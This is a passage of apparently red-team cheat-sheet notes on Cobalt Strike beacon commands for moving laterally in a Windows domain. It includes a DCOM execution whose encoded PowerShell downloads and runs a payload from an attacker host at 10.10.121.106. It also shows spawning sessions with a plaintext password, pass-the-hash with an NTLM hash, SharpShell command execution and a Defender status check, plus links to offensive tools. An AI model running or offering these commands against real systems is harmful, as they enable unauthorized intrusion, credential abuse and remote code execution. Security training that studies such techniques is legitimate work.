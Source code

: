 ### DCOM

```
beacon> execute-assembly /opt/tools/CsDCOM.exe -t w-west-239 -b powershell.exe -a "-enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADIAMQAuADEAMAA2ADoAOAAwADAAMAAvAGgAbwBtAGUAJwApACkA" -m mmc20application
[...]

beacon> connect w-west-239 444
[...]
```

### Spawn

```
beacon> spawnas vault\b.boss Passw0rd peer-tcp
[...]

beacon> spawnu <pid> peer-tcp
[...]
```

### Pass the Hash

```
beacon> pth WKSTN-3\Administrator ccbe70d463aef35efd3cdf0d71416b82
```

### Resources
- https://github.com/GhostPack/SharpWMI
- https://github.com/Hackplayers/evil-winrm
- https://github.com/rasta-mouse/MiscTools
- https://github.com/iomoath/sharpstrike

## SharpShell

```
beacon> execute-assembly /opt/tools/SharpShell.exe return Shell.PowerShellExecute("whoami");
[...]

beacon> execute-assembly /opt/tools/SharpShell.exe var av = SCM.GetService("w-west-239","WinDefend"); return av.Status.ToString();
```

### Resources
- https://github.com/dwmkerr/sharpshell

## Foreign Listeners

CS -> MSF
